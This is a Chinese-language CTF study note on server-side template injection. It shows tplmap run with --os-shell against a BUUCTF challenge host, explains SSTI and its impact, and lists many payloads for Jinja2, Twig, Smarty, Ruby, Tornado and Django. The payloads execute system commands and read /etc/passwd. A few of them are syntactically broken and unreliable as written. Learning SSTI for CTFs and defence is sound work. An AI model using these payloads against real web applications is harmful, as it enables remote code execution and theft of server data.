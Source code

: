 # tplmap使用

tplmap需要python2的运行环境

- (kali中更改python版本使用命令`sudo update-alternatives --config python`,然后手动选择版本)

语法:(进入到/home/cjy/CTF-tools/tplmap/后)

`./tplmap -u http://036c3e84-70cc-4a38-a626-16b8d5d4271b.node5.buuoj.cn:81/qaq?name=1`

#可以查询模板,并且还会提示我们使用什么注入

对于buuctf fake google这题,就可以使用命令:

`./tplmap.py -u http://036c3e84-70cc-4a38-a626-16b8d5d4271b.node5.buuoj.cn:81/qaq?name=1 --engine=Jinja2 --os-shell`拿到shell命令界面,别忘了--engine指定模板



# 一.什么是服务器端模板注入？

- 简单来说，就是网站内容的动态部分，如果有一个网站的内容几乎相同，但只有某些部分发生改变，那么他们很有可能使用了模板

服务器端模板注入是指攻击者能够使用本机模板语法将恶意有效负载注入模板中，然后在服务器端执行该模板。

模板引擎旨在通过将固定模板与易失性数据结合来生成网页。当用户输入直接连接到模板而不是作为数据传递时，可能会发生服务器端模板注入攻击。这使攻击者可以注入任意模板指令以操纵模板引擎，从而经常使攻击者能够完全控制服务器。顾名思义，服务器端模板注入有效负载是在服务器端交付和评估的，这可能使它们比典型的客户端模板注入更加危险。

# 二.服务器端模板注入有什么影响？

服务器端模板注入漏洞可能使网站遭受各种攻击，具体取决于所讨论的模板引擎以及应用程序使用它的方式。在某些罕见情况下，这些漏洞不会带来真正的安全风险。但是，在大多数情况下， 服务器端模板注入的影响可能是灾难性的。

在规模最大的一端，攻击者可以潜在地实现远程代码执行，从而完全控制后端服务器，并使用它对内部基础结构进行其他攻击。

即使在无法完全执行远程代码的情况下，攻击者通常仍可以使用服务器端模板注入作为其他众多攻击的基础，从而有可能获得对服务器上敏感数据和任意文件的读取权限。



# 判断模板注入类型的办法

https://img-blog.csdnimg.cn/img_convert/61b42a16c2b405e6ab1ada36470713f1.png

有的时候相同的payload可能会有两种响应，比如{{7*'7'}}在Twig中会的到49，而在Jinja2中会得到7777777。



# 各个模板注入的payload

## Flask/jinja2

`{{7*7}}`看看能不能成功执行,如果输出49即为flask框架

- 可以尝试`{{system('ls')}}`执行命令

- 查看环境变量可以用`{{config}}`

	如果config被过滤也可以使用:()其中这两个函数包含了``current_app`

	```
	url_for和get_flashed_messages
	```

	具体用法:

	```
	{{url_for.__globals__}}
	{{get_flashed_messages.__globals__}}
	```

	再查询当前app下的`config`

	```
	{{url_for.__globals__['current_app'].config}}
	{{get_flashed_messages.__globals__['current_app'].config}}
	```

	

## Twig

`{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}`

`cat /flag`可以换成其他系统命令

## Smarty

在``{}``里可以直接执行php命令

## 各种payload示例：

- 通过config，调用os
	`{{config.__class__.__init__.__globals__[‘os’].popen(‘ls’).read()}}`

	无过滤的情况下也可以直接`{{config}}`看看能不能撞上flag（？）

- 通过url_for，调用os
	`{{url_for.__globals__.os.popen('ls').read()}}`

- 在已加载os模块的子类里直接调用os模块
	`{{“”.__class__.__bases__[0].__subclasses__()[199].__init__.__globals__[‘os’].popen(“ls”).read()}}`

	`{{“”.__class__.__base__.__subclasses__()[117].__init__.__globals__[‘builtins’][‘eval’]("__import__.(‘os’).popen(‘ls’).read()")}} `

- importlib类执行命令
	importlib类执行命令相当于自己导入，可以加载第三方库，使用load_module加载os

	`{{[].__class__.__base__.__subclasses__()[69].["load_module"]("os")[“popen”](‘ls’).read()}}`

- linecache函数执行命令
	linecache函数可用于读取任意一个文件的某一行，而这个函数中也引入了os 模块，所以我们也可以利用这个 linecache 函数去执行命令。

	`{{[].__class__.__base__.__subclasses__()[19].__init__.__globals__.linecache.os.popen("ls").read()}}`

- subprocess.Popen类执行命令
	从python2.4版本开始，可以用 subprocess 这个模块来产生子进程，并连接到子进程的标准输入/输出/错误中去，还可以得到子进程的返回值。

	`{{().__class__.__base__.__subclasses__()[13](“ls”,shell=True,stdout=-1).communicate()[0].strip()}}`

## 测试用例

- 简单的数学表达式，`{{ 7+7 }} => 14`

- 字符串表达式 `{{ "ajin" }} => ajin`

- - Ruby

		`<%= 7 * 7 %><%= File.open('/etc/passwd').read %>`

- - Java

		`${7*7}`

- - Twig

		`{{7*7}}`

- - Smarty

		`{php}echo `id`;{/php}`

- - AngularJS

		`$eval('1+1')`

- - Tornado

		引用模块 `{% import module %}`=> `{% import os %}{{ os.popen("whoami").read() }}`

- - Flask/Jinja2

  	`{{ config }}`
  	
  	`{{ config.items() }}`
  	
  	`{{get_flashed_messages.__globals__['current_app'].config}}`
  	
  	`{{''.__class__.__mro__[-1].__subclasses__()}}`
  	
  	`{{url_for.__globals__['__builtins__'].__import__('os').system('ls') }}`
  	
  	`{{request.__init__.__globals__['__builtins__'].open('/etc/passwd').read() }}`

- - Django

		`{{ request }}``{% debug %}``{% load module %}``{% include "x.html" %}``{% extends "x.html" %}`